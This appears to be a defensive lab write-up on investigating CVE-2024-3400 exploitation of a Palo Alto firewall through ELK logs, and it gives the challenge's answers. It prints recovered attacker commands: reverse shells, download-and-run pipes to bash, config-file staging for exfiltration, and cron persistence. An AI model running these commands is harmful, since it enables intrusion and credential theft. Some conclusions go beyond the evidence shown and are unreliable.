





## Scenario

Palo Alto, a leading firewall vendor, has recently announced a critical vulnerability (CVE-2024-3400) that affects specific versions of its next-generation firewalls. This critical vulnerability enables remote attackers to gain unauthorized access and potentially take full control of affected systems. These firewalls are integral to your organization's network security, as they manage and monitor both inbound and outbound traffic, safeguarding against unauthorized access and various threats.

As a security analyst, your primary task is to accurately and swiftly determine whether any of the organization's systems are impacted by this newly disclosed vulnerability.

## Analysis Process

For this challenge, we will have access to the ELK platform to investigate a case of attack exploiting the **CVE-2024-3400** vulnerability.

### Task 1: Identify the IP address of the first threat actor who gained unauthorized access to the environment.

**CVE-2024-3400** is a **command injection** vulnerability in the GlobalProtect feature of PAN-OS, allowing an attacker to remotely execute commands with **root privileges** on the firewall without logging in (unauthenticated).

According to [Palo Alto](https://security.paloaltonetworks.com/CVE-2024-3400), to detect intrusion attempts, you can filter the `gpsvc.log` log file as follows:

```shell
grep pattern "failed to unmarshal session(.\+.\/" mp-log gpsvc.log*
```

If the part between `session(` and `)` doesn't look like a **GUID**, but instead contains a file path or even a shell command string, it could be related to attempted exploitation **CVE-2024-3400**. Therefore, we will use the following query to find the exploitation attempts.

```kql
message : "*failed to unmarshal session(*"
```

<div class="mx-auto"></div>

We see that the attacker injected a **base64-encoded** payload into the session. After decoding, we get the complete payload as follows:

```shell
bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
```

The attacker established a reverse shell to the C2 server with IP `54.162.164.22` and port `1337`.

Using **DevTools** to extract and decrypt the payload, we obtain a series of payloads executed by the attacker, as follows:

```shell
bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
bash -i >& /dev/tcp/54.162.164.22/13337 0>&1
bash -i >& /dev/tcp/54.162.164.22/8080 0>&1

whoami -i >& /dev/tcp/54.162.164.22/1337 0>&1
whoami -i >& /dev/tcp/54.162.164.22/13337 0>&1
whoami -i >& /dev/tcp/54.162.164.22/8080 0>&1

ls -i >& /dev/tcp/54.162.164.22/1337 0>&1
ls -i >& /dev/tcp/54.162.164.22/13337 0>&1
ls -i >& /dev/tcp/54.162.164.22/8080 0>&1

wget -qO /var/tmp/BYhkpzVZP http://185.196.9.31:8080/ZvfhsodEot2FHKdyoKI6_w; chmod +x /var/tmp/BYhkpzVZP; /var/tmp/BYhkpzVZP

tar -czf /var/appweb/sslvpndocs/global-protect/portal/js/jquery.wei96iq3vi.js /opt/pancfg/mgmt/saved-configs/running-config.xml

cp /opt/pancfg/mgmt/saved-configs/running-config.xml /var/appweb/sslvpndocs/global-protect/gpvpncfg.css

curl -s -L http://138.197.162.79:65534/0dzFrRzQ.sh|bash -s
wget -q -O - http://138.197.162.79:65534/0dzFrRzQ.sh|bash -s

nslookup uktmhf.dnslog.cn/`whoami`
(curl -s -L  http://138.197.162.79:65534/0dzFrRzQ.sh|| wget -q -O - http://138.197.162.79:65534/0dzFrRzQ.sh)| bash -s
```

### Task 2: Determine the date and time of the initial interaction between the threat actor and the target system. Format: 24h-UTC

To determine the initial interaction time with the attacker, we will query the **C2 server's IP address**.

<div class="mx-auto"></div>

We can see that the earliest recorded interaction from `54.162.164.22` occurred on **April 21, 2024, at 18:17:07 UTC**. The appearance of tools like `curl/7.81.0` and `wget` suggests that the attacker may be using automated **reconnaissance** scripts.

### Task 3: What is the command the threat actor used to achieve persistence on the machine?

A deeper analysis of logs related to the attacker's IP address reveals a series of scheduled tasks executed via **crond**.

<div class="mx-auto"></div>

The specific command is as follows:

```shell
wget -qO- http://54.162.164.22/update | bash
```

It connects to `http://54.162.164.22/update`, downloads a shell script named update, and runs that script immediately with root privileges. What's special about it is that it uses **cron** to run scripts periodically and achieves a persistence mechanism.

### Task 4: What port was the first port used by one of the threat actors for the reverse shell?

From the payloads we decoded in Task 1, we can easily find the answer is port `13337`.

### Task 5: What was the name of the file one of the threat actors tried to exfiltrate?

Based on the decrypted payloads, we see that the attacker executed the following command:

```shell
tar -czf /var/appweb/sslvpndocs/global-protect/portal/js/jquery.wei96iq3vi.js /opt/pancfg/mgmt/saved-configs/running-config.xml
```

It compresses the `running-config.xml` file into a JS file named `jquery.wei96iq3vi.js` for easier exfiltration. Examining subsequent log entries, an external IP address attempts to access this staged file through a **GET** request:

<div class="mx-auto"></div>

### Task 6: What was the full URL the Threat actor used to access the exfiltrated content successfully?

By filtering HTTP GET requests originating from the attacker's IP address `54.162.164.22` and focusing on status code `200`, we observe the following:

<div class="mx-auto"></div>

We see many GET requests to the `bootstrap.min.css` file, which is very unusual. It's possible the attacker was exfiltrating data under the guise of accessing common web assets.

```
54.162.164.22 57960 - 172.31.38.49 20077 [26/Apr/2024:06:46:38 -0700] "GET /global-protect/portal/css/bootstrap.min.css HTTP/1.1" 200 22243 "https://44.217.16.42/global-protect/bootstrap.min.css" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0" 1714139198.187 0.000 - 119
```

This the log includes a critical piece of information, a referrer URL, `https://44.217.16.42/global-protect/bootstrap.min.css`. This value reveals the URL from which the request originated, suggesting that the public IP address, that the user initially sent the request to, was `44.217.16.42`.

## Conclusion

**CVE-2024-3400** represents a critical and severe vulnerability in Palo Alto Networks' GlobalProtect feature that allowed unauthenticated remote code execution with root privileges. Through comprehensive log analysis and threat hunting using the ELK platform, we successfully reconstructed the complete attack timeline and identified the threat actor's operational pattern.

**Key Findings:**

1. **Attack Origin**: The threat actor originated from IP address `54.162.164.22`, initiating the exploitation on April 21, 2024, at 18:17:07 UTC.

2. **Attack Progression**: The attacker followed a systematic approach—initial reconnaissance, reverse shell establishment through multiple ports (1337, 13337, 8080), privilege escalation, and lateral movement to exfiltrate sensitive configuration files.

3. **Data Exfiltration**: The attacker successfully exfiltrated the `running-config.xml` file, which contains critical firewall configuration details and credentials. The sophisticated approach of disguising the exfiltrated data as legitimate web assets (`jquery.wei96iq3vi.js` and `bootstrap.min.css`) demonstrates advanced operational security awareness.

4. **Persistence Mechanism**: The threat actor established persistence through a scheduled cron task that periodically downloads and executes updates from their control infrastructure, enabling long-term access and potential for additional compromise.

**Lessons Learned:**

- **Firewall Vulnerability Management**: Critical vulnerabilities in perimeter security devices must be patched immediately, as they provide direct access to sensitive network infrastructure.
- **Log Analysis**: Comprehensive logging and real-time threat hunting capabilities are essential for early detection and rapid incident response.
- **Data Exfiltration Detection**: Monitoring for unusual access patterns to common web assets and analyzing HTTP referrer headers can reveal data exfiltration attempts.
- **Credential Protection**: Configuration files containing credentials or sensitive configuration data must be treated as high-value targets and protected accordingly.

This incident underscores the importance of proactive threat hunting, robust log management, and rapid patching of critical vulnerabilities in your organization's security infrastructure.
